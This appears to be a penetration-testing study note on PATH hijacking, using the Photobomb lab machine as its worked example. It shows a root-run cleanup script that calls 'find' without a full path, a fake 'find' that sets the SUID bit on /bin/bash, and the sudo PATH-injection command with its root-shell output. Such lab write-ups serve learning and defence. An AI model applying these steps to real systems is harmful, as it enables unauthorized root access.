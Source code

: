 In order to exploit a PATH Hijacking we need to identify two things:
1) That the script can be executed on another user's context
2) There is a missing relative path on a command or on a library

## BASH
Let's analyze the following code:
```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
As we can see the "find" command is being executed without relative path (such as /bin/cat or /usr/bin/truncate) so this gives us an entry point of a privesc.
In order to hijack a PATH environment we need to first craft a script called as the name of the vulnerable variable, in this case "find":
```bash
# Script that will give special permission to the bash to be run as root without password.
wizard@photobomb:~$ cat find
#!/bin/bash
chmod 4755 /bin/bash
```
Then we need to hijack the environment "PATH" variable with the folder where this new crafted "find" script is located:
```bash
# Actual PATH environment variable:
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# PATH that we need to inject on such $PATH variable:
wizard@photobomb:~$ echo $PWD
/home/wizard
```
It is of upmost importance to give permissions to the script:
```bash
wizard@photobomb:~$ chmod +x find
```
This way, since the order where a script looks for a non-relative path command/library is from left to right on the $PATH variable, first place that will lookup is the /home/wizard path, to do so we can execute the command adding the PATH environment:
```bash
# export command to add /home/wizard to the PATH
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
Examples:
[[Photobomb#^2939e0]]